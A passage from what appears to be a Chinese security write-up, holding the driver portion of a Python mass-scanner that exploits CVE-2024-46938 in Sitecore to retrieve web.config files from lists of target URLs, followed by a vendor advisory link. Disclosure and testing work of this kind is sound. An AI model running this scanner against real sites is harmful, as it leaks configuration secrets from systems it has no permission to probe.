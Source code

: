 ```
            print("\n[+] Successfully exploited CVE-2024-46938 and obtained web.config:")
            for result in self.results:
                print(f"\nTarget: {result['url']}")
                print(f"Local Path: {result['path']}")
                print("-" * 50)
def main():
    parser = argparse.ArgumentParser(description="Test for absolute path disclosure vulnerability.")
    parser.add_argument("--baseurl", help="Base URL of the target (e.g., https://example.com)")
    parser.add_argument("--inputfile", help="File containing a list of URLs, one per line")
    args = parser.parse_args()
    urls = []
    if args.baseurl:
        urls.append(args.baseurl)
    elif args.inputfile:
        with open(args.inputfile, "r") as file:
            urls = [line.strip() for line in file if line.strip()]
    else:
        parser.error("Either --baseurl or --inputfile must be provided")
    scanner = FileDisclosureScanner()
    timestamp = datetime.now().strftime("%Y%m%d-%H%M%S")
    output_file = f"output-{timestamp}.txt"
    # Calculate total requests for progress bar
    total_requests = len(urls) * (len(scanner.fixed_paths) + len(scanner.generate_dynamic_paths(urls[0])))
    with tqdm(total=total_requests, desc="Scanning", unit="request") as progress_bar:
        with ThreadPoolExecutor(max_workers=10) as main_executor:
            futures = {main_executor.submit(scanner.process_url, url, progress_bar): url 
                      for url in urls}
            for future in as_completed(futures):
                future.result()
    if scanner.results:
        scanner.save_results(output_file)
        print(f"\n[+] Found {len(scanner.results)} vulnerable targets")
        print(f"[+] Results saved to: {output_file}")
        scanner.print_results()
    else:
        print("\n[-] No vulnerabilities found")
if __name__ == "__main__":
    main()
```  
  
****  
****  
**0x05 参考链接**  
  
  
https://support.sitecore.com/kb?id=kb_article_view&sysparm_article=KB1003408  
  
  
  
  
推荐阅读：  
  